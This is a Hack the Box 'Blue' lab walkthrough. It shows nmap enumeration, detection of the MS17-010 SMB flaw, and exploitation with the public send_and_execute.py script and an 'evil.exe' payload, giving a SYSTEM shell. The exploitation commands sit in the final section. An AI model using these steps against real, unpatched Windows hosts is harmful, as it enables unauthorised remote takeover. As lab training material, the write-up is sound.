```yaml
---
title: Hack the Box - Blue
date: 2022-08-15 19:30 -500 
categories: [Hack the Box]
tags: [oscp,windows]
---
```


![Blue](/assets/HackTheBox/Blue/Blue.png)

# Blue Overview

## Machine Details

|IP|Hostname|Operating System|
|---|---|---|
|10.10.10.40|Blue|Windows|

## Path to Exploitation

We leverage the host's vulnerability to MS17-010 to fully compromise the host.

# Enumeration 

## Full Port Scan

```bash
nmap 10.10.10.40 -p- -oA Blue/nmap/full-port --open -Pn -vv
```

Results:

|PORT|SERVICE|
|----|-------|
|135|msrpc|
|139|netbios-ssn|
|445|microsoft-ds|
|49152|unknown|
|49153|unknown|
|49154|unknown|
|49155|unknown|
|49156|unknown|
|49157|unknown|

## Service Scan

```bash
nmap 10.10.10.40 -p 135,139,445,49152,49153,49154,49155,49156,49157 -sC -sV -oA Blue/nmap/service-scan -Pn
```

Results:

|PORT|SERVICE|VERSION|
|----|-------|-------|
|135|msrpc|Windows RPC|
|139|netbios-ssn|Windows netbios-ssn|
|445|microsoft-ds|7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)|
|49152|msrpc|Windows RPC|
|49153|msrpc|Windows RPC|
|49154|msrpc|Windows RPC|
|49155|msrpc|Windows RPC|
|49156|msrpc|Windows RPC|
|49157|msrpc|Windows RPC|

# SMB

## SMB Nmap Scan

```shell
$ nmap -p 139,445 --script=smb-vuln* 10.10.10.40 -Pn -oA nmap/smb-scan
```
```cmd
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
```

<mark>We see the host is vulnerable to MS17-010</mark>

# Exploitation and Privilege Escalation

We can use the [send_and_execute.py](https://github.com/k4u5h41/MS17-010_CVE-2017-0143) script to attack the machine.

Use the checker.py script to identify the named pipes available
```shell
$ python checker.py 10.10.10.40
```
![SMB Checker](/assets/HackTheBox/Blue/exploit-check.png "Checking Pipes")

We can try supplying the guest username to the script and seeing if we get different results.
![With Guest User](/assets/HackTheBox/Blue/modify-checker.png "With Guest User")
```shell
$ python checker.py 10.10.10.40
```
![Found Pipes](/assets/HackTheBox/Blue/found-pipes.png "Found Valid Pipes")

We can now try executing the send_and_execute.py script using the guest user.

![Modify the Exploit](/assets/HackTheBox/Blue/modify-exploit.png "Modify the Exploit")

```shell
$ python send_and_execute.py 10.10.10.40 evil.exe 445
```
![Launch Exploit](/assets/HackTheBox/Blue/exploit.png "Launch the Exploit")

We now have a shell on the machine as the SYSTEM account
![Shell on Host](/assets/HackTheBox/Blue/shell.png "SYSTEM Shell")


